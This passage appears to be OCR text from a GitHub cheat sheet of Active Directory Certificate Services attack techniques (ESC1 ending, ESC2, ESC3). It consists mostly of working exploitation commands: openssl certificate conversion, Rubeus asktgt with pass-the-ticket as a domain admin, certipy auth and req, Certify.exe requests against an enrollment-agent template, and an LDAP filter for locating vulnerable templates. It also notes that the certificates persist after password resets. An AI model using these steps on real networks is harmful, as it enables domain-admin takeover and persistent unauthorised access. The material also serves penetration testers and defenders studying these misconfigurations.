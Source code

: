  - openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider" -out cert.pfx

#### 4) Move the cert.pfx file to the target machine filesystem and request a TGT for the altname user using Rubeus

 - Rubeus.exe asktgt /user:domadmin /certificate:C:\Temp\cert.pfx /ptt

 - certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.19.100


## WARNING! These certificates will still be usable even if the user or computer resets their password!

# ESC2 - Misconfigured Certificate Templates

## Requirements

### Allows requesters to specify a Subject Alternative Name (SAN) in the CSR as well as allows Any Purpose EKU (2.5.29.37.0)

## Exploitation

#### 1) Find template

 - (&(objectclass=pkicertificatetemplate)(!(mspki-enrollmentflag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-rasignature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))

#### 2) Request a certificate specifying the /altname as a domain admin like in ESC1

# ESC3 - Misconfigured Enrollment Agent Templates

### ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users

## Exploitation

#### 1) Request a certificate based on the vulnerable certificate template ESC3.

 - Certify.exe request /ca:DC01.DOMAIN.LOCAL\DOMAIN-CA /template:Vuln-EnrollmentAgent

 - certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local' -ca 'corp-CA' -template 'templateName'
